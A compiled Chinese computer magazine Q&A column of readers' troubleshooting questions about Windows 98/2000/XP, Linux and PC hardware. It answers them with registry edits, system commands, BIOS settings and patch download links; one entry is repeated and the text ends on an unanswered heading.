山西读者胡江河问：我的电脑中安装的是 Windows 98，最近屏幕上经常出现如下错误提示：A fatal exception OE has occurred at (address) in VXD (FSD) + (address). The current application will be terminated. 如果继续操作，屏幕上会不断出现蓝屏错误信息提示，必须重新启动电脑才能恢复正常。请问这是为何？如何恢复正常显示？

答：出现这个问题的原因是系统中某几个路径名称与 MS-DOS 设备名相冲突，因为 MS-DOS 设备名不能用做文件夹名或文件名，因此系统试图将被重名的 MS-DOS 设备名解释为文件资源时，就执行了非法的资源访问操作，这种操作通常会导致电脑停止响应并提示错误。解决该问题的方法是使用 Microsoft 提供的一个官方修复程序，该程序的下载链接为 http://support.microsoft.com/default.aspx?scid=kb;zh-cn;CNTACTMS。

## 解决输入法自定义词组跨系统使用问题

河南读者虞美丽问：我的电脑中原来安装的是 Windows 98，里面安装了王码五笔（86版）输入法，由于长时间使用，因此在里面添加了大量的自定义词组，最近又安装了 Windows XP 组成双系统。我想把 Windows 98 下的自定义词组移植到 Windows XP 下使用，但不知该怎么操作，请帮我解决为盼。

答：一般情况下，王码五笔（86版）输入法自定义的词组文件 Winwb86.emb 默认保存在 Windows 98 中的 “Windows\System” 文件夹下。你只要找到此文件，然后将该文件复制到 Windows XP 的 “Windows\System32” 文件夹下，这样在 Windows 98 中使用过的自定义词组在 Windows XP 中同样也能使用了。

## 安装 SQL Server 2000 时出错中断的解决

上海读者小甜甜问：我在 Windows 2000 下安装 Microsoft SQL Server 2000 时，出现以下错误信息：A previous program installation created pending file operations on the installation machine: You must restart the computer before running setup. 随后安装中断。请问该如何处理？

答：你可以通过执行如下步骤解决问题：
打开 “注册表编辑器”，找到 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager]。在右侧窗格中右击 PendingFileRename Operations，在出现的快捷菜单上选择 “删除” 命令。检查其他控件组件项如 ControlSet001、ControlSet002 等，如果其中存在相同的值也要将它们删除。执行完上述操作后保存并退出即可。

## 虚拟内存设置中自定义页面功能失效

江西读者卫宏问：我使用的是 Windows XP，最近在系统启动到 “欢迎使用” 界面时，屏幕上提示 “有限的虚拟内存” 错误，要求我到 “控制面板” 中设置页面文件。我按照提示去设置了，并把页面文件大小按照推荐值调整好后重新启动系统，但发现问题依旧。进入 “虚拟内存” 选项，发现我自定义的页面文件大小已生效，但 “当前分配值” 的参数仍为0，重新设置多次均无效。请问如何才能解决这个问题？

答：“当前分配值” 仍然为0，说明你设置的参数并没有生效。虚拟内存的设置与其他选项的设置方法有所不同，如果你输入完“初始大小”和“最大值”后就单击了“确定”按钮是不能让设置生效的。正确的方法是输入数值后单击一下旁边的“设置”按钮，然后再单击“确定”按钮才可以使设置生效。

### Windows 2000中WinMgmt出错的顽症

青海读者胡航问:我使用的是Windows 2000，最近在开机时出现“WinMgmt.exe产生了错误，将会被Windows关闭，需要重新启动程序”的错误提示，单击“确定”按钮后，这个提示还是重复出现。重新安装系统也不能解决问题。请问我该怎么办？
答:你可以通过重装Windows 2000 Service Pack 2来修复WinMgmt.exe。Windows 2000 Service Pack 2可在 http://www.microsoft.com/china/windows2000/SP2.htm 处下载。

### 杀毒后Windows Update页面链接失效

江西洪永良问:我的电脑安装的是Windows XP，最近中了“震荡波”病毒，查杀病毒后再使用Windows Update时，页面上的链接都变成了灰色，不能选择了，并且无法打上“震荡波”安全补丁。请问我该怎么办？
答:“震荡波”病毒会修改C:\Windows\System32\drivers\etc文件夹下的hosts文件，在其中添加一些IP，从而达到阻止用户进行在线更新及升级杀毒软件的目的。解决该问题的方法是用“记事本”打开该文件夹下的hosts文件，删除其中所有的IP地址行。如果打不上“震荡波”安全补丁，你可以采用关闭445端口的方法来堵住该病毒，具体方法是：
打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters]，在右侧窗格找到名为SMBDeviceEnabled的DWORD值(如果没有则新建一个)，将其值设置为0。退出注册表编辑器并重启系统即可。

### Windows XP系统病毒防护功能启用问题

广东读者何孟达问:我的电脑安装了Windows XP，最近又安装了SP2补丁，可发现开机时在任务栏中总是显示一个红色的盾牌图标，用鼠标点击进入后提示“病毒防护未启用”，可我已经安装了“诺顿安全特警2004”啊，不过这两天却神秘地消失了。后来我觉得诺顿自带的防火墙要好一点，就在选项里把Windows自带的防火墙关掉了，可是在任务栏中又出现了红色的盾牌。请问这时该怎么办？
答:在SP2中，微软加入了一个“安全中心”控制台，它主要是检测系统中病毒防护、防火墙、自动更新的状态，如果检测不到就会在开机时自动弹出红色盾牌以示警告。但实际上Windows SP2并不能准确地检测到大部分的杀毒软件，因此出现了上述问题。你可以进入“开始→控制面板”，单击“病毒防护”下的“建议”，勾选“我已经安装了防病毒程序并将自己监视其状态”；也可以从“开始→控制面板→管理工具→服务”窗口找到安全中心服务“Security Center”，将其停用。这样下次开机时就不会出现提醒了。另外，由于各大杀毒软件厂商都针对SP2完善了兼容性，因此将杀毒软件升级到最新版本也能解决问题。

### XSL文件损坏造成的问题及解决方法

山西读者李少康问:我的电脑安装的是Windows XP，最近系统总是出现如下提示: A file that is required to run Search Companion cannot be found. You may need to run setup. 请问这是怎么回事？希望博士先生能帮我解决。
答:造成这个故障的原因是C:\Windows\srchasst\mui\0409下的BAR.XSL、BALLOON.XSL等文件损坏，解决该问题的方法是：

-   首先尝试清空IE临时文件夹。
-   如果问题依旧，你可以安装SP1补丁，从 http://download.microsoft.com/download/whistler/Patch/Q319949/WXP/EN-US/Q319949_WXP_SP1_x86_ENU.exe 处下载程序并安装。

### 空间足够却为何提示安装空间不足

四川读者李珂鑫问:我在安装Windows 98时，系统提示磁盘空间不够，安装无法进行。但查看磁盘空间，发现实际上磁盘空间非常充足。请问这是为什么？
答:在安装Windows 98时会执行一个磁盘空间检查的操作，如果你的磁盘存在碎片过多等问题也会出现“磁盘空间不足”的提示。你可以在执行Setup安装命令时加上“/id”这个参数，也就是输入Setup/id命令，这样可以使安装程序忽略检查可用磁盘空间的步骤，从而避免上述提示的出现。

### 操作系统的“搜索”功能为何失效了

新疆读者王大清问:我的电脑使用的是Windows XP，最近发现在单击“资源管理器”工具栏上的“搜索”按钮或者按F3键时，系统无任何响应。请问这是何故？该如何解决？
答:出现这个问题的原因应该是搜索服务组件被破坏了，你可以采用如下方法解决问题：

-   首先进入C:\Windows\inf文件夹(该文件夹属性为隐藏，可先通过“文件夹选项”设置解除隐藏)。
-   用鼠标右键单击srchasst.inf文件，在弹出的右键菜单中选择“安装”命令。
-   此时，系统会提示你插入Windows XP安装光盘，该操作为重新安装Windows XP的搜索服务组件，安装完成后问题应该可以得到解决。

### Windows XP中自定义打印机纸张的问题

福建读者胡伟问:我以前使用的是Windows 98，在“打印机属性”里的“纸张选择”中有“自定义”一项，可升级到Windows XP后却发现没有这一项了，因而无法自定义纸张大小，感觉非常不方便。请问如何解决？
答:在Windows XP中其实是有“自定义”纸张的，你可以通过如下操作实现：

-   在“开始→控制面板”中双击打开“打印机和传真机”，然后单击“文件”，在下拉菜单中选择“服务器属性”。
-   在“服务器属性”中勾选“创建新格式”，然后在“表格名”中为自己新定义的纸张起一个名字，在“宽度”、“高度”中分别键入你需要的数值，定制好“打印机区域边距”并单击“保存”按钮。
-   打开“打印机属性”，依次选择“打印首选项→高级→纸张大小→新创建格式”即可调用。

### IE中Internet高级选项设置为何消失了

云南读者黄平定问:我在打开IE的“工具→Internet选项→高级”标签时，发现里面什么选项也没有了。请问这是为何？我该怎么办？
答:出现这个问题的原因是系统注册表中的“AdvancedOptions”键丢失或受损。有几种方法能解决问题，比如：重装IE、从另一台安装了相同系统的注册表中将“AdvancedOptions”键导出，然后导入到自己的注册表中，重启系统即可。不过，我们推荐你采取下面这个更简单的方法：点击“开始→运行”，在“打开”栏中键入 REGSVR32 /n /i IETCPL.CPL 命令并按回车键执行，确认所弹出的窗口，然后重启IE即可恢复正常。

### 安装REDHAT LINUX 7.2后不能进入图形界面

北京读者李小小问:我使用的是华硕A1000系列笔记本电脑，最近想在笔记本电脑上装REDHAT LINUX 7.2版操作系统，安装时图形环境都很正常，但安装完成并重启电脑后不能进入图形界面。请问如何才能解决这个问题？
答:你可以通过如下步骤解决这个问题：

-   安装REDHAT LINUX 7.2版操作系统时选择 SIS630, Generic Laptop 1024 × 768，设置启动后进入文本方式。
-   安装完成后，在 grub.conf (Grub引导) 或者 lilo.conf (Lilo引导) 中加入 VGA=0x317 语句，重启后执行 startx 即可正常进入X Windows了。

### “搜索”选项丢失后如何恢复

山东读者刘彬问:我的电脑中安装的是Windows 2000，最近由于中毒，导致“开始”菜单中的“搜索”项丢失了。请问如何才能恢复正常？
答:打开“注册表编辑器”，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]，在右侧窗格中新建一个名为 NoFind 的Dword值，将其值设置为00000000(十六进制)并保存退出即可。

### 系统更新时出错而不能进行下去

江苏读者刘苏问:我使用的是Windows 2000，在使用更新功能时，系统出现 0x8007045A ERROR_DLL_INIT_FAILED 的错误提示，不能从Windows更新网站下载更新。请问该如何解决这个问题？
答:解决这个问题的方法如下：

-   你可以从 http://msdn.microsoft.com/library/default.asp?url=/downloads/list/xmlgeneral.asp 升级或安装最新版本的XML parser来解决这个问题。
-   可以从其他安装了Windows 2000的电脑中复制 msxml3.dll、msxml3a.dll 和 msxml3r.dll 文件到你的系统中并重新启动电脑即可解决这个问题。

### 压缩包中多出folder.htt和Desktop.ini文件

河南读者王伟问:我的电脑中安装的是Windows 98，最近在打开一些RAR文件时，总是发现里面莫名其妙地多出 folder.htt 和 Desktop.ini 两个文件。请问这是怎么回事？
答:出现这种现象说明你的系统中了“欢乐时光”病毒，解决该问题的方法是到金山或瑞星的网站下载“欢乐时光”病毒专杀工具程序，然后执行程序进行杀毒操作即可。

### 无法显示HTM或HTML的文件图标

河北读者王心海问:我是一名网页设计爱好者，系统中有很多HTM或HTML扩展名的网页文件，以前这类文件的图标和Internet快捷方式的图标差不多。可是最近我的系统中此类文件的图标却变了样，都变成Windows中没有登记的文件类型的图标了，如何才能恢复原样？
答:产生这个故障的原因是注册表中相关的键值被修改或损坏了，可能是由于病毒引起的，恢复的方法：

-   打开“注册表编辑器”，定位到[HKEY_CLASSES_ROOT\htmlfile\Shellex\IconHandler]分支，在右侧窗格中将名为 IconHandler 的键删除，关闭“注册表编辑器”。
-   右击桌面上的IE图标，选择“属性”，然后在“程序”标签下点击“重置Web设置”按钮，在弹出窗口确认，然后关闭设置窗口重启电脑即可。

### Explorer进程无法自动加载

广西读者梁爽问:最近我的Windows 2000 SP4在启动的过程中，Explorer进程总是无法自动加载。每次都得通过“Ctrl+Shift+Esc”打开“任务管理器”后手动新建一个Explorer.exe进程才能进入系统。请问如何才能解决这个问题？
答:这个故障可能是病毒或者某些恶意网站修改了注册表而造成的，你可以尝试用下面的步骤来解决问题。

-   更新杀毒软件并完整扫描系统，确认没有病毒。
-   打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]，检查 Shell 的值是否为 Explorer.exe，如果不是则改为 Explorer.exe。

### 查看源文件时不显示源代码

北京读者文清问：当在 Internet Explorer 中选择菜单“查看→源文件”时，或右击选择菜单查看网页的源代码时，系统都没有按预期的显示源代码文件。请问如何解决这个问题？我用的是 Windows 98。
答：这是一个比较常见的故障，多在 Windows 98 中发生。可能的原因有：系统的临时文件夹已经满了、Notepad.exe 丢失或损坏、第三方文本编辑软件被关联为 IE 源文件编辑器后，出现了问题或被非法卸载。解决步骤：

-   (1) 清空系统的临时文件夹目录，右击 IE 选择“属性”，在“常规”选项卡中点击“删除文件”即可。
-   (2) 如果是 Notepad.exe 丢失或损坏，则可以从别的机器上复制一个副本，恢复到 C:\WINDOWS\system32 目录即可。
-   (3) 如果是第三方文本编辑软件出现的问题，则重新将其关联起来即可，或者重新安装一遍该软件。
-   (4) 如果上面的都没能解决，打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\View Source Editor\Editor Name]，在右侧窗格中将“默认”的值设置为你所需的网页源码编辑器执行文件的绝对路径即可。

### “帮助和支持”中的连接结果为“没有定义”

安徽读者郑广问：我的系统是 Windows XP，最近我发现当打开“帮助和支持”中的“用 Windows Update 保持您的计算机处于最新状态”的链接时，总出现“没有定义”的提示，请问这是怎么回事？
答：产生该故障的原因可能是第三方杀毒软件或防火墙和系统不兼容，阻止了系统中某些脚本程序的运行，所以当出现此类问题时，你先将系统中正在运行的第三方杀毒软件或防火墙关闭，检查是否还存在该问题。如果问题没能解决，则尝试运行以下命令来解决问题：

```
regsvr32 wshom.ocx
regsvr32 jscript
regsvr32 /i mshtml
```

### 卸载程序没有“更改/删除”按钮

陕西读者王荣贵问：我的系统是 Windows 2000，打开“添加/删除程序”后要卸载 Adobe Acrobat，却发现在“更改或删除程序”的列表中的 Adobe Acrobat 卸载项没有相应的“更改/删除”按钮，请问如何解决这个问题？
答：你可以这样解决此问题：打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall]，找到 Adobe Acrobat 主键，在该主键的右侧窗格中将“NoRemove”和“NoModify”的键值都改为0，关闭“注册表编辑器”，重启系统。

### 卸载 SP1 补丁后修复更新系统出错

河北读者赵文涛问：我的电脑中安装的是 Windows XP，最近卸载了曾经安装的 SP1 补丁程序，可是在一些系统文件被损坏后执行修复系统的操作并使用系统更新功能时，屏幕上出现“网页意外错误”的提示。请问该如何解决？
答：打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Windows]，在右侧窗格中双击 CSDVersion 项，将其值设为 0 并单击“确定”按钮，重启系统即可解决问题。

### IE 中的安全设置选项按钮为何失效了

浙江读者王振宇问：我在 Windows 2000 桌面右击 IE 图标并选择“属性”，选择了“安全”标签后，发现“自定义级别”和“默认级别”按钮变成灰色不可选状态，无法改变 IE 的安全等级。请问该如何解决？
答：出现这个问题的原因是系统在注册表中添加了一个“SecChangeSettings”键进行了限制。请打开注册表编辑器，找到[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]，将右侧窗口中的“SecChangeSettings”键删除后，重启 IE 即可解决问题。

### 关机时电脑转睡眠功能为何消失了

新疆读者崔铁军问：我的电脑中安装的是 Windows 98，最近发现“关闭系统”中的“将您的电脑转入睡眠”功能消失了。请问如何才能恢复？
答：(1) 开机后按 Del 键进入 BIOS SETUP，检查 POWER MANAGEMENT 项的参数是否为 Enabled，如果不是，请更改。
(2) 启动系统后依次选择“我的电脑→属性→设备管理→系统设备→高级电源管理”，将“高级电源管理”删除，然后再用“控制面板”中的“添加新硬件”功能重新安装“高级电源管理”设备驱动。

### 装英文软件后菜单变英文或干脆消失

湖南读者王烨问：我的电脑中安装的是 Windows 98 操作系统，最近安装了一些英文软件后，发现原来安装的中文软件中的汉字菜单和界面有的变成了英文显示，有的干脆就消失得无影无踪。请问这是为什么？
答：这种情况往往发生在使用微软开发工具开发出的中文软件中，这些中文软件中菜单或界面内的汉字都是受动态链接库 (DLL 文件) 控制的，如果你之后安装的英文软件试图覆盖原中文软件的动态链接库时，系统就会给出警告，并提示是否替换原有文件。你要是没留心选择了覆盖，就会出现中文软件丢失汉字的情况，解决办法是重新安装中文软件即可。

### Winipcfg 或 IPconfig 运行错误

四川读者了了问：阅贵刊 2005 年第 2 期“CFan 加油站”之“IP 知识补习班”中《如何查询本机 IP 地址》一文后按文中讲述步骤进行操作：第一步，Windows 98 运行 command，Windows 2000/XP 运行 cmd；第二步，运行 Winipcfg 或 IPconfig；第三步，显示出本机 IP 地址。按照以上步骤操作，Windows 98 能正确显示出本机 IP 地址，而 Windows 2000 运行到第二步就显示出错信息：“不是内部或外部命令，也不是可运行的程序或批处理文件。” 请问，是我操作上的问题，还是该文介绍有误？
答：一般来说，Windows 98 下使用 Winipcfg 命令，Windows 2000 下使用 IPconfig 命令即可达到文中介绍的目的。如果正确下达此命令后还出现上述错误，说明你系统中没有安装该程序或该程序已经丢失，请从其他电脑中拷贝一个到本机系统目录中即可。

### 卸载软件后系统启动提示找不到 VXD 文件

陕西读者赵日诚问：我以前在 Windows 2000 中安装了一个软件，后来在“添加/删除程序”中将其卸载了，但以后每次启动系统时，屏幕上总是提示说找不到几个 VXD 文件，我看了 System.ini 和 Win.ini 文件，其中并没有引用这几个 VxD 文件，使用“查找文件”的功能也没能找到这些文件。请问这是何故？
答：出现这种现象说明你的软件卸载得不干净，系统一般通过三种途径来装载 VXD 文件。一是在 System.ini 中登记，系统在启动时分析该文件，并装载其中指定的 VxD；二是在注册表中登记，在系统启动时运行注册表并装载指定的 VxD；三是系统启动完毕后，应用程序可以申请动态装载某些 VxD，这些 VxD 一般是第三方软件自带的。从现象上看你安装的软件将 VxD 登记在了注册表中。打开注册表编辑器，找到 [HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD]，从右侧窗格找到启动时提示的 VxD 文件名并删除。

### “自动完成”功能不保存用户名和密码

问：我的系统是 Windows XP，在用 IE 上网浏览论坛、信箱时提示输入用户名和密码的站点后，都选择了弹出对话框中的“将此密码保存在密码列表中”，但我发现下一次访问该站点时，系统并未自动保存用户名和密码，再次访问该站点时，系统并未自动输入用户信息。请问这个问题如何解决？（江西 王江南）
答：可能导致这个问题的原因很多，可以按照以下顺序进行检查。

-   1. 验证 IE 是否已经打开了“自动完成”功能：在 IE 中选择菜单“工具→Internet 选项”，单击“内容”选项卡，在“个人信息”栏中单击“自动完成”按钮，在“自动完成”设置对话框中确认已经勾选了“表单的用户名和密码”。
-   2. 验证“Protected Storage”服务正在运行：在“开始→运行”键入 Services.msc，打开服务管理控制台，在服务名称列表中查看“Protected Storage”是否已经启动了，如果未启动 Protected Storage，则将其启动；如果已启动了，请将其停止然后再重新启动一次。
-   3. 如果上面的方法解决不了，则可能是系统未正确注册 RSABase.dll，这时你可以先用“Regsvr32 /u RSABase.dll”命令将此文件反注册，然后再用“Regsvr32 RSABase.dll”(均不含引号) 将其重新注册一次即可。如果 RSABase.dll 损坏了，可以到相同版本系统中复制一个，然后再进行注册。

### 系统出现“Limited Virtual Memory”错误信息

问：我用的是 Windows 2000，内存大小为 256MB，最近不知道为什么系统经常出现“Limited Virtual Memory(虚拟内存有限)”的错误提示，只要执行一些内存占用比较大的程序，比如 CS、魔兽等游戏就会出现此问题，请问我是中毒了吗？应该如何解决？（广州 伍建国）
答：如果将计算机上分页文件 Pagefile.sys 的大小设置为小于系统推荐的大小加上物理内存的总和，这时系统可能创建一个临时分页文件 Temppf.sys。如果临时分页文件 Temppf.sys 要使用大量的硬盘可用空间，而剩余的可用硬盘空间小于在“控制面板”中配置的分页文件设置的初始大小，就可能出现此问题。解决的方法：

-   1. 清理系统分区的垃圾文件，给临时分页文件腾出足够的空间，以适应临时分页文件的大小。
-   2. 用 Win + Break 组合键打开“系统属性”，在“高级”选项卡中单击“性能”栏中的“设置”按钮，在弹出窗口的“高级”选项卡中点击“虚拟内存”栏中的“更改”按钮，将分页文件的“初始大小”和“最大大小”的值均设置为 0，然后重新启动计算机。
-   3. 根据上面的步骤将“初始大小”和“最大大小”值重置为 Windows 2000 的推荐(默认)值，再次重新启动计算机。这样为分页文件配置了适当的大小后，临时分页文件将被删除，虚拟内存错误将不再发生。关于分页文件的配置方法可以参考本刊 2004 年第 5 期的《虚拟内存到底应该怎么设》。

### 改变所有文件夹的显示方式

问：在新安装的 Windows 2003 中，文件夹显示方式的默认设置是“详细列表”，如果想改为“平铺”，每打开一个文件夹就改一次太麻烦了，有什么方法能将硬盘中所有文件夹的显示方式同时改为“平铺”？（四川 刘新宇）
答：在 Windows 2003 中将“详细列表”的显示方式改为“平铺”后，可以通过文件夹选项的“查看”选项卡，点击“应用到所有文件夹”按钮，即可将当前设置应用到所有文件夹。

显示方式改为其他方式的方法如下（也适用于 Windows XP）：

- 在“我的电脑”中打开任意文件夹，右击空白处，在“查看”菜单中选择你喜欢的显示方式，比如“平铺”。
- 选择菜单“工具→文件夹选项”，在弹出窗口的“查看”选项卡单击“应用到所有文件夹”，然后确认所有操作即可。

## Msvcirt.dll 文件链接错误

> 问：我的电脑安装的是 Windows 98，最近在启动时总提示“Msvcirt.dll file is linked to missing export msvcrt.dll（Msvcirt.dll 文件被链接到丢失的 msvcrt.dll 输出）”，请问这是怎么回事？（陕西 张宁宁）

答：如果系统中 Msvcirt.dll 和 Msvcrt.dll 这两个文件中有一个被破坏或者丢失，就可能出现这个问题。解决方法就是在 Windows 98 的安装光盘中找到这两个文件（也可使用 SFC“系统文件检查器”），然后用它们覆盖系统中的原文件（这两个文件在 C:\Windows\System）。

## “任务管理器”没有显示进程的用户名

> 问：我安装的是 Windows XP 系统，以前打开“任务管理器”后在进程列表中会显示各个进程对应的用户名，可现在只有进程“System Idle Process”旁边显示了用户名 SYSTEM，其他进程边上都是空白的，请问如何才能让它显示用户名？（北京 陈锦松）

答：你可能曾经对系统服务进行过优化，把其中的“Terminal Services”服务禁止了。解决方法：在“开始→运行”中输入 Services.msc，在服务列表中找到“Terminal Services”服务，然后将其“启动类型”设置为“手动”或“自动”，并点击“启动”按钮，确保“服务状态”为“已启动”后退出设置，重新打开“任务管理器”即可。

## 硬件

## EPSON 打印机维护箱需要及时更换

> 问：我使用的是 EPSON STYLUS PRO 7600 打印机，最近出现打印机停止打印并且液晶屏上提示“MAINTENANCE TANK FULL”信息的现象。请问该如何解决？（山西 杨帆）

答：在 EPSON STYLUS PRO 7600 打印机的机身右侧安装有一个收集废墨的装置，这个装置叫维护箱，用来收集打印和清洗过程中产生的废墨。维护箱上装有芯片，用来记录废墨量。当记录到标定值时，打印机控制面板上会提示“MAINTENANCE TANK FULL”并且停止打印。这时到 EPSON 维修中心去换上一个新的维护箱，打印机就可以正常工作了。

## 设置开机密码时遇到的怪问题

> 问：我在主板 BIOS 中的“Set Supervisor Password”参数项中设置了开机密码，保存退出后重新启动电脑，但发现电脑并没有提示输入开机密码，当我按 Esc 键进入 BIOS 时却提示输入该密码。请问如何正确设置开机密码？（新疆 斯古丽娜）

答：在主板的 BIOS 中，需要设置两个参数项才能让开机密码生效，一个参数项是你已经设置了的“Set Supervisor Password”，通过该参数项可以设置密码。如果要想让该密码在开机时被提示出来，还要将“Advanced BIOS Feature”菜单中“Security Option”项的参数设置为“System”。

## 如何设置磐正主板的网络唤醒功能

> 问：我使用的磐正主板支持网络唤醒功能，可无论我怎么设置也无法实现。请问如何进行正确设置？（ABC）

答：你应该依照如下步骤检查并设置：

- 根据说明书上的提示设置好 BIOS 中开启网络唤醒功能的参数。
- 设置被唤醒电脑的属性，即在被唤醒的电脑上设置好网卡 IP 地址，还要在操作系统中选择进入命令行模式，在其中执行 Ipconfig /all 命令得到 MAC Address。
- 在被唤醒电脑的操作系统中安装 Magic Packet Utility 软件（软件为免费共享软件，华军网站提供下载），运行该软件后选择“Magic Packets→Power On One Host”激活唤醒界面，在唤醒界面中设置好网段（子网掩码），随后在 Destination Ethernet Address 界面中输入上面得到的 MAC Address，最后单击 Send 按钮即可。

需要注意的是，电脑在非正常关机的情况下可能无法被唤醒，系统中安装的一些安全软件或防火墙也会造成网络唤醒功能失效。

## 自检时出现的硬盘故障提示

> 问：我使用的是一块西部数据 80GB 硬盘，分成了 C、D、E、F 四个逻辑区，最近在开机自检时系统提示：“Warning: Immediately back-up your date and replace your hard disk drive, a failure may be imminent”。按回车键有时候可以正常启动，也出现过无法进入系统并死机的现象。我多次执行格式化分区并重新安装系统的操作，但仍然出现上述问题。请告诉解决办法好吗？（陕西 胡鹏）

答：电脑在进行开机自检时所出现的提示的意思是要求“立即备份你硬盘中所存储的数据并且更换你电脑中的硬盘，一个故障很快就要发生”。此时你应该进行如下操作：

- 使用磁盘修复软件如 PQMagic 检查硬盘，如果是数据受损（如引导记录丢失等）软故障可以直接修复，如果是磁盘有坏道等硬故障，可以用工具软件将坏道修复或隔离出来。
- 随后重新对硬盘进行分区和格式化操作并重新安装操作系统。
- 如果仍然出现问题，那只有更换硬盘这一个办法了。

## 重启电脑显卡驱动程序丢失故障

> 问：我最近更换了一块显卡，正常安装了驱动程序，但发现每次重新启动电脑后系统总是显示显卡驱动丢失，需要重新安装显卡驱动程序，将显卡换到其他电脑上却没有发生这样的现象。能解释一下原因，并告诉我具体解决办法吗？（大连 王玉如）

答：出现这个现象表明你的显卡和主板存在兼容性问题。解决该问题可尝试如下方法：

- 到显卡生产厂商的官方网站上下载最新的驱动程序进行安装。
- 刷新显卡的 BIOS。
- 更换其他品牌的显卡或主板。

## 如何解决出现 Disk I/O error 错误提示的故障

> 问：我是一个电脑爱好者，我的电脑遇到了困难在开机后出现了两个画面后就出现以下程序：

```
em Disk
Disk I/O error
Replace the disk, and then press any key

Searching for Boot Record from COROM...Not found
Searching for Boot Record from FLOPPY...Not found
Searching for Boot Record from SCSI...Not found
Boot Failure
Reboot and Select proper Boot device or Insert Boot Media in Selected Boot device.
press any Key when ready.
```

能不能帮我解决一下这个故障？（玛丽嘉儿）

答：这个故障应该是你硬盘上的主引导扇区被破坏了，造成系统无法引导。如果你是 Windows 98 系统，可以用 Windows 98 启动盘引导系统，然后用“FDISK/MBR”命令修复硬盘的主引导扇区，再用“SYS A: C:”命令传递系统文件，完成后重启电脑，C 盘就可以引导成功。

## 内存不兼容导致容量不能正确识别

> 问：一台品牌机，配置为 Pentium III、800、i815E 主板、HY128MB 内存，后来添加了一条日立 128MB 内存，但主板认出的内存总容量只为 128MB。经过测试，在该电脑上，两条内存可以分别独立使用，但一起用的时候只能认出 128MB。（夹竹桃）

答：可知这两条内存间存在兼容性问题，建议将新添加的内存更换为采用 HY 芯片的产品后，故障可得到解决。由于在电气性能上的差别，内存条之间有可能会有兼容性的问题，该问题在不同品牌的内存混插的环境下出现的几率较大。因此，使用两条或两条以上内存条的时候应该尽量选择相同品牌和型号的产品，这样可以在最大程度上避免内存的不兼容。如果无法购买到与原内存相同的产品时，应该尽量采用市场口碑较好的品牌内存，它们一般都经过近万种系统的特殊匹配及兼容性测试，在元件、设计和质量上也能达到或超过行业标准；另外产品的测试程序也较完善，从而确保了其可靠性、一致性和兼容性。这里需说明一下，并不是所有的品牌内存都具有良好的兼容性的。

## 为什么在 Windows XP 下更换电视卡的驱动时出现错误提示

> 问：为什么当我在 WinXP Pro 下更换电视卡的驱动时出现“Data Invalid”的错误提示，电视卡无法安装？（完）

答：这是因为 WinXP 对注册表的保护功能导致的，部分声卡和 SCSI 卡存在着同样的问题。解决方法是运行 Regedt32.exe，展开至 HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/ENUM/PCI，在目录树中你会看到很多 VEN_xxxx 的键。找到右边的 Device Desc 符合你的电视卡的那项 VEN_xxxx，右击 VEN_xxxx 选“许可”，在弹出的对话框中点选“允许完全控制”。关闭注册表并继续安装硬件。

## 自检时出现的硬盘故障提示

> 问：我使用的是一块西部数据 80GB 硬盘，分成了 C、D、E、F 四个逻辑区，最近在开机自检时系统提示：“Warning: Immediately back-up your date and replace your hard disk drive, a failure may be imminent”。按回车键有时候可以正常启动，也出现过无法进入系统并死机的现象。我多次执行格式化分区并重新安装系统的操作，但仍然出现上述问题。请告诉解决办法好吗？（陕西 胡鹏）

答：电脑在进行开机自检时所出现的提示的意思是要求“立即备份你硬盘中所存储的数据并且更换你电脑中的硬盘，一个故障很快就要发生”。此时你应该进行如下操作：

- 使用磁盘修复软件如 PQMagic 检查硬盘，如果是数据受损（如引导记录丢失等）软故障可以直接修复，如果是磁盘有坏道等硬故障，可以用工具软件将坏道修复或隔离出来。
- 随后重新对硬盘进行分区和格式化操作并重新安装操作系统。
- 如果仍然出现问题，那只有更换硬盘这一个办法了。

## Windows 98 环境下显卡安装问题

> 问：我给电脑换了一块 GeForce FX 显卡，但显卡安装完毕并重启电脑后，Windows 98 总是提示显示器设置不正确。请问该如何解决？

答：
- 不要使用系统中提供的显卡驱动程序，通过随显卡附送的驱动程序安装光盘来安装显卡驱动程序。
- 开机后按 Del 键进入 BIOS SETUP，找到“Assign IRQ to VGA”选项，将其参数由 Disabled 改为 Enabled，最后按 F10 键选择保存退出即可。

## 拨号上网连续报警不能接通

问：我在使用调制解调器拨号上网时，电话在拨号时总是发出连续的报警声音，同时连网不成功。请问这是怎么回事？

答：出现这个现象的原因是你的电话机并联了电话机防盗打装置并处于打开状态，你应该在上网时将电话机防盗打装置关闭。另外如果你的电话主机并联了其他分机，有时也会出现这种现象，此时应该断开分机再执行拨号上网操作。

## 无线网卡总是无法搜索到AP

问：为什么我安装的无线网卡总是无法搜索到AP呢？

答：最有可能的原因是无线网卡所在位置的无线信号通量不够，可以换个位置试试，如果问题仍然存在，可以考虑关联到信号更好的无线访问点。另外一个因素是无线网卡受到来自周边其他电气设备的信号干扰，如果是这样，你可以考虑更换信道，如调整到1、6或者11这几个信道以排除干扰。

## Windows 2003下某些主板出现假死机

问：我的电脑中安装的是AMD Athlon 1GHz，华硕K7M AMD750芯片组主板，nVIDIA GeForceMX440显卡，希捷酷鱼40GB硬盘，现代256MB DDR内存，在将操作系统更换成了Windows 2003后，发现系统总是出现几秒钟的死机现象，在这个时间段内系统没有任何响应，请问这是为什么？我该怎么办？

答：一些AMD750芯片组主板在Windows 2003下可能无法正常工作，原因是AMD750芯片组驱动程序的兼容问题，由于Windows 2003有返回驱动的功能，因此可以将已经安装了的驱动程序卸载掉。进入“设备管理器”，将“IDE ATA/ATAPI控制器”下的“AMD-756 PCI Bus Master IDE Controller V1.36”和“系统设备”下的“AMD-751 Processor to AGP Controller”执行返回驱动程序的操作。然后重启系统即可。

## 外置光驱不能打开和读取光盘故障

